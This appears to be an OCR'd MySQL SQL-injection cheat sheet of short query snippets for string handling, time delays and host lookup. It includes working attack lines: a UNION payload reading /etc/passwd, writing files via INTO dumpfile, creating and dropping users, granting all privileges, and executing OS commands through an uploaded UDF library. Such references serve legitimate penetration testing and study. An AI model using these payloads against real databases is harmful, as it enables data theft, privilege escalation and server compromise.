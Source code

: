 String Concatenation 	
```sql
SELECT CONCAT('A','B'); #returns AB
SELECT CONCAT('A','B','C'); # returns ABC
```

If Statement 	
```sql
SELECT if(1=1,'foo','bar'); — returns 'foo'
```

Case Statement 	
```sql
SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; # returns A
```

Avoiding Quotes 	
```sql
SELECT 0x414243; # returns ABC
```

Time Delay 
```sql
SELECT BENCHMARK(1000000,MD5('A'));
SELECT SLEEP(5); # >= 5.0.12
```

Make DNS Requests 	Impossible?

Command Execution 	

If mysqld (<5.0) is running as root AND you compromise a DBA account you can execute OS commands by uploading a shared object file into /usr/lib (or similar).  The .so file should contain a User Defined Function (UDF).  raptor_udf.c explains exactly how you go about this.  Remember to compile for the target architecture which may or may not be the same as your attack platform.

Local File Access 	

```sql
…' UNION ALL SELECT LOAD_FILE('/etc/passwd') — priv, can only read world-readable files.
SELECT * FROM mytable INTO dumpfile '/tmp/somefile'; — priv, write to file system
```

Hostname, IP Address 	
```sql
SELECT @@hostname;
```

Create Users 	
```sql
CREATE USER test1 IDENTIFIED BY 'pass1'; — priv
```

Delete Users 	
```sql
DROP USER test1; — priv
```

Make User DBA 	
```sql
GRANT ALL PRIVILEGES ON *.* TO test1@'%'; — priv
```
